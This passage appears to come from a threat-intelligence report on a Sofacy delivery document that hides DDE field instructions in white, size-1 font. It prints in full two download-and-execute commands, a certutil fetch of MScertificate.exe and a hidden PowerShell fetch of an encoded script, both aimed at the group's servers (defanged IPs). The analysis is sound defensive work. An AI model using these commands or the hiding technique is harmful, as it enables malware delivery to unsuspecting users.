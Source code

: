 Figure 3 Example of delivery document

Figure 4 Lure image used
The creator of the weaponized document appended their DDE instructions to the end of the document after all of the decoy contents. When the document is opened in Word, the instructions are not immediately visible, as Word does not display these fields contents by default. As you can see in the following screenshot, simply attempting to highlight the lines in which the DDE instructions reside does not display them.
Figure 5 Hidden DDE commands
Enabling the “Toggle Field Codes” feature reveals the DDE instructions to us and shows that the author had set instructions to size 1 font and with a white coloring. The use of a white font coloring to hide contents within a weaponized document is a technique we had previously reported being used by the Sofacy group in a malicious macro attack.
The DDE instructions attempt to run the following the following command on the victim host, which attempts to download and execute a payload from a remote server:





C:\\Programs\\Microsoft\\MSOffice\\Word.exe\\..\\..\\..\\..\\Windows\\
System32\\rundll32.exe
C:\\Windows\\System32\\shell32.dll,ShellExec_RunDLL
C:\\Windows\\System32\\cmd.exe /k certutil -urlcache -split -f
hxxp://220.158.216[.]127/MScertificate.exe & MScertificate.exe"




12345

C:\\Programs\\Microsoft\\MSOffice\\Word.exe\\..\\..\\..\\..\\Windows\\System32\\rundll32.exeC:\\Windows\\System32\\shell32.dll,ShellExec_RunDLLC:\\Windows\\System32\\cmd.exe /k certutil -urlcache -split -fhxxp://220.158.216[.]127/MScertificate.exe & MScertificate.exe"





During our analysis, we observed this DDE downloading and executing a Zebrocy AutoIt downloader (f27836430…), configured to attempt to download an additional payload from 220.158.216[.]127. The DDE instructions also included another command that it did not run, which suggests it is an artifact of a prior version of this delivery document. The following shows this unused command, which exposed an additional server within Sofacy’s infrastructure would download and execute an encoded PowerShell script from 92.114.92[.]102:





C:\\Programs\\Microsoft\\MSOffice\\Word.exe\\..\\..\\..\\..\\Windows\\
System32\\WindowsPowerShell\\v1.0\\powershell.exe -NoP -sta -NonI -W
hidden $e=(New-Object
System.Net.webClient).downloadString('hxxp://92.114.92[.]102:80/d');po
wershell -enc $e #




12345

C:\\Programs\\Microsoft\\MSOffice\\Word.exe\\..\\..\\..\\..\\Windows\\System32\\WindowsPowerShell\\v1.0\\powershell.exe -NoP -sta -NonI -Whidden $e=(New-ObjectSystem.Net.webClient).downloadString('hxxp://92.114.92[.]102:80/d');powershell -enc $e #
